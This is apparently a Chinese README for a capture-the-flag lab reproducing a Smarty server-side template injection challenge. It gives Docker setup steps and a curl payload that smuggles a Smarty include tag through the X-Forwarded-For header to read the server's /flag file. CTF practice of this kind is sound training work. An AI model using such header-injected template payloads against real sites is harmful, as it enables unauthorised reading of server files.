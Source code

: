 # CISCN2019 华东南赛区 Web11

## 题目详情

- **CISCN2019 华东南赛区 Web11**

复现完才发现其实蛮简单- -

## 考点

-  Smarty SSTI

## 启动

    docker-compose up -d
    open http://127.0.0.1:80/

## Payload

```
curl -X GET \
  http://web57.buuoj.cn/xff/ \
  -H 'X-Forwarded-For: {include file='\''/flag'\''}'
```

## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（ i@zhaoj.in ）
